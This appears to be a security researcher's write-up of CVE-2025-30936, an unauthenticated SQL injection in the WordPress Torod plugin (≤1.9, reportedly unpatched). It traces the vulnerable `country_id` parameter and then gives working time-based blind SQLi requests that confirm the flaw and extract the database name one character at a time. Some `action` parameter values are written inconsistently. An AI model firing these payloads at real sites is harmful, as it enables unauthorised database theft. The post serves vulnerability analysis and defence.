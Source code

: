 ```yaml
---
title: CVE-2025-30936 Analysis & POC
description: Security Vulnerability in WordPress Torod Plugin.
date: 2025-09-28 20:51:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

The vulnerability occurs in the **Torod** plugin for WordPress. This could allow attackers to directly interact with your database, including but not limited to stealing information.

* **CVE ID**: [CVE-2025-30936](https://www.cve.org/CVERecord?id=CVE-2025-30936)
* **Product**: [WordPress Torod Plugin](https://wordpress.org/plugins/torod/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.9
* **Fixed in**: <= N/A
* **CVSS severity**:  High (9.3)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Torod**: v1.9

## Analysis

The core cause is that the application directly inserts data from a **POST** request into an SQL query without proper input validation or control mechanisms.

### Vulnerable Sink

This CVE has no patch available, so we cannot use a **diff tool** to compare the vulnerable and fixed versions.

> In WordPress, for SQLi to occur, the application must interact with the database through the global variable `$wpdb`. We can search for this keyword in the plugin directory to locate the sink.

![Search sink](search_sink.png "Locate the sink in code")

👉 The data from `$_POST['country_id']` is directly inserted into the SQL query without proper validation. Using `sanitize_text_field()` only escapes the string, not fully sanitizing it. Therefore, the SQL Injection vulnerability can occur.

* Source: `$_POST['country_id']`
* Sink: `$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")`

### How it works?

The vulnerability lies in the `get_regions_and_cities` function of the `ajaxyk` class within the **inc/ajaxyk.php** file. To determine where it’s called, we search for the keyword `get_regions_and_cities` within the plugin directory.

![Search 1](search_1.png "Find the get_regions_and_cities function")

👉 `get_regions_and_cities` is registered as a callback for two action hooks via the `add_action` function in the `ajaxyk` constructor.

* `wp_ajax_get_regions_and_cities`

  * Written in the format `wp_ajax_{$action}`
  * Requires user authentication

* `wp_ajax_nopriv_get_regions_and_cities`

  * Written in the format `wp_ajax_nopriv_{$action}`
  * Does not require authentication

Since this is an **unauthenticated** vulnerability, we only focus on the `wp_ajax_nopriv_get_regions_and_cities` hook.

Thus, when a **POST** request is sent to `/wp-admin/admin-ajax.php` with parameters:

```http
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here
```

* The `get_regions_and_cities` callback is triggered.
* `country_id` is taken directly from the request and injected into the SQL query.
* The query executes with the malicious payload.

## Exploit

### Detecting SQLi

Send a **POST request** containing the SQLi payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

The resulting query becomes:

```sql
SELECT * FROM wp_torod_regions WHERE country_id = (SELECT 1 FROM (SELECT SLEEP(5))a)
```

![Responsed time](time_resp.png "Response time result")

👉 Based on the response time => the payload works.

**Techniques usable when the table is empty:**

* **UNION**: Since it does not depend on existing data in the table, but requires knowing the number of columns.
* **Subquery**:

  * **Subquery in WHERE clause**: MySQL may optimize and skip the subquery if the result can be determined early. If the table has no data, MySQL might not execute `SLEEP()`.
  * **Subquery in FROM clause**: The subquery is treated as a temporary table. MySQL must execute it first to build the temp table before executing the main query.

![SQL Execution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png "SQL execution order")

### Get the First Letter of Database Name

The prerequisite to **dump all data** is to retrieve at least one character of the database name. Once that is achieved, the rest can be enumerated.

Send a request with the **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Here, `SUBSTRING()` extracts the first character of the **database name**, and `IF()` triggers `SLEEP(5)` if that character is `0x77` ('w').

We use the hex encoding `0x77` for `w` because `country_id` is taken from a **POST** request, which is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) in WordPress and by `sanitize_text_field`.

👉 Based on response time => the first character is confirmed to be `w`.

## Conclusion

The **CVE-2025-30936** vulnerability in the **WordPress Torod** plugin (version ≤ 1.9) stems from directly inserting user input into an SQL query without proper validation, leading to a classic SQL Injection flaw.

No official patch has been released for this vulnerability yet.

**Key takeaways**:

* Always validate and sanitize user input properly.
* Always use `$wpdb->prepare()` when interacting with the database in WordPress to prevent SQL Injection.
* Keep plugins up-to-date and perform regular security assessments to avoid being targeted.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Torod Plugin <= 1.9 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/torod/vulnerability/wordpress-torod-1-9-sql-injection-vulnerability?_s_id=cve)
